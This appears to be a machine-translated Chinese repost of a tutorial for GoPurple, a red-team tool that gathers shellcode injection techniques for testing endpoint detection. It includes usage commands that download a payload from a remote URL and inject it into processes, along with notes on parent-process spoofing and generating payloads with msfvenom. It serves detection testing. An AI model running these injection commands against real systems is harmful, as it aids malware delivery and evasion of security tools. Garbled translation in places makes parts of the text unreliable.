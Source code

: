 # GoPurple:另一个 Shellcode Runner 包含了不同的技术，用于评估端点安全解决方案的检测能力

> 原文：<https://kalilinuxtutorials.com/gopurple/>

[![](img/469b06fe397daa1f6c7c34077a581d72.png)](https://1.bp.blogspot.com/-etzIdJmCZa8/YTWtmKEgaFI/AAAAAAAAKtQ/XIITgQSyzfwykjvWUf82xKAKj3rLkbk2ACLcBGAsYHQ/s728/images%2B%25281%2529.png)

**GoPurple** 是各种 shell 代码注入技术的简单集合，旨在简化端点检测评估的过程，并挑战自己进入 Golang world。

**安装**

*   需要安装 go。

*   从项目的目录:`**go build**`构建应用程序。如果构建系统不是 Windows，则设置`**GOOS=windows**`

***_/****| |
| | _*|**_ _**_ _ _*_***_ |
| | | _/_ ' _ | | | '**| ' _ | ^ _ ^ _ ^ _ ^ \
| |**|*)|*)|*|*) **/ __， *|* | |。**/|*| _*| |
| | |
|*| |*| by @ s3c dev
-a 字符串
程序命令行参数
-b 字符串
阻塞 DLL 模式(nonms/onlystore for QueueUserAPC)
-p int
进程 ID 将外壳代码注入
-prog string
程序注入
-t string
外壳代码注入要使用的技术:
1:create fiber
2:syscall
3:CreateThreadNative
4:CreateProcess
5:etwpcreateetthread
6:createremotelotethread
7:RtlCreateUserThread
8:CreateThread【T52**

**例题**

需要生成 shellcode，这可以使用 MSF 毒液或 shad0w 之类的工具来完成。然后，需要托管外壳代码，以便远程下载并在远程机器上执行。为了清楚起见，下面的演示说明了使用该工具的不同方法。

*   使用 BananaPhone 方法+shadw 作为外壳代码生成器的外壳代码注入

![](img/03ffe0910e478c13eeb9ecf82ac282dc.png)

*   使用 QueueUserAPC 技术的外壳代码注入+shadw 作为外壳代码生成器+欺骗父 ID (explorer 作为父 ID) +由包含外壳代码的欺骗父启动的进程(calc) +保护进程免受未签名的 DLL 挂钩的影响，因此只有 Microsoft 签名的 DLL 可以挂钩到进程中。

![](img/ab27a5bda1d74eeb61db8d017645016e.png)

*   使用 CreateFiber + msfvenom 作为外壳代码生成器的外壳代码注入

![](img/255f0b5bf4f4ffabff8e654097166548.png)

**如何使用**

**1–gopurple.exe-u urlhostingpayload-T1(create fiber)
2–gopurple.exe-u urlhostingpayload-T2(Syscall)
3–gopurple.exe-u urlhostingpayload-T3(CreateThreadNative)
4–gopurple.exe-u urlhostingpayload-T4(CreateProcess)
5–gopurple.exe-u urlhostingpayload-T5(etwpcreatethread)
6–gopurple.exe-u urlhostingpayload-T6-p target process(create
9–gopurple.exe-u urlhostingpayload-t 9-p target process(CreateRemoteThreadNative)
10–gopurple.exe-u urlhostingpayload-t 10-Prog program-a Process 参数(ex:C:\ Windows \ System32 \ Windows powershell \ v 1.0)和 Process 参数(ex:Get-Process)(CreateProcessWithPipe)
11–gopurple.exe-u urlhostingpayload-t 11-p targetpidas parantprocess-programintoinject
13-gopurple.exe-u urlhostingpayload-t13(banana phone)
14-gopurple.exe-u urlhostingpayload-T14(EnumerateLoadedModules)
15-gopurple.exe-u urlhostingpayload-T15(EnumChildWindows)
16-gopurple.exe-u urlhostingpayload-T16(EnumPageFilesW)**

[**Download**](https://github.com/sh4hin/GoPurple)